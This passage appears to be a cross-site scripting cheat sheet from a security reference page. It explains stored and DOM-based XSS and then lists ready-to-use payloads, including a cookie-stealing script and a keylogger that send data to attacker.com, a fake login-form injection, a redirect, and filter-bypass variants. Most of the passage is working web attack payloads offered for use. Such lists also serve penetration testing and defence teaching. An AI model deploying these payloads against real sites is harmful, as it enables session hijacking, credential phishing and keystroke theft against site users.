 #### Stored XSS (Persistent XSS)

* **Explanation**: The injected script is permanently stored on the target server (e.g., in a database, forum post, comment section, user profile). When other users visit the affected page, the malicious script is retrieved from the server and executed in their browser.
* **Use Case**: Highly dangerous as it affects all users who view the compromised content without requiring direct interaction with a malicious link.
* **Example Scenario**: A forum where users can post comments.
    * **Attacker Posts**: `<p>Hello world! <script>alert(document.cookie)</script></p>`
    * **Stored in Database**: `Hello world! <script>alert(document.cookie)</script>`
    * **Victim Views Page**: The script executes every time the comment is loaded.

#### DOM-based XSS

* **Explanation**: The vulnerability lies in the client-side code (JavaScript) that processes data from an untrustworthy source, such as the URL fragment (`#...`), and writes it to the DOM without proper sanitization. The server never sees the malicious payload.
* **Use Case**: Exploiting client-side JavaScript that dynamically manipulates the DOM using user-controlled data (e.g., from `document.URL`, `location.hash`, `document.referrer`).
* **Example Scenario**: A JavaScript function that reads `location.hash` and writes it to an element.
    * **Vulnerable JavaScript**: `var s = document.getElementById('id').innerHTML = location.hash;`
    * **Vulnerable URL**: `http://example.com/page.html#<img src=x onerror=alert(1)>`
    * **Browser Action**: The browser executes `alert(1)` when the image fails to load.

### Common XSS Payloads

* **Basic Alert (Proof of Concept)**:
    * `<script>alert(1)</script>`
    * `<script>alert('XSS')</script>`
    * `<img src=x onerror=alert(1)>`
    * `<svg onload=alert(1)>`
    * `<body onload=alert(1)>`
    * `<iframe src="javascript:alert(1)"></iframe>`

* **Cookie Stealing**:
    * `<script>document.location='http://attacker.com/log.php?c='+document.cookie</script>`

* **HTML Injection / Phishing**:
    * `<script>document.body.innerHTML='<h1>You have been logged out. Please re-enter credentials:</h1><form>Username:<input type=text><br>Password:<input type=password></form>'</script>`

* **Keylogger**:
    * `<script>document.onkeypress = function(e){ fetch('http://attacker.com/log.php?key='+e.key); }</script>`

* **Redirect**:
    * `<script>window.location.href='http://malicious.com'</script>`

### XSS Bypasses

* **Case Sensitivity**:
    * `<sCrIpT>alert(1)</sCrIpT>`
* **Filtering `script` tags**: Use other tags or events.
    * `<img src=x onerror=alert(1)>`
    * `<body onload=alert(1)>`
    * `<svg onload=alert(1)>`
    * `<details open ontoggle=alert(1)>`
    * `<video><source onerror="alert(1)">`
* **Filtering parentheses `()`**: Use backticks for `alert`.
    * `<img src=x onerror=alert`1`>`
* **Filtering quotes `"` `'`**:
    * `<img src=x onerror=alert(document.cookie)>` (if no quotes needed)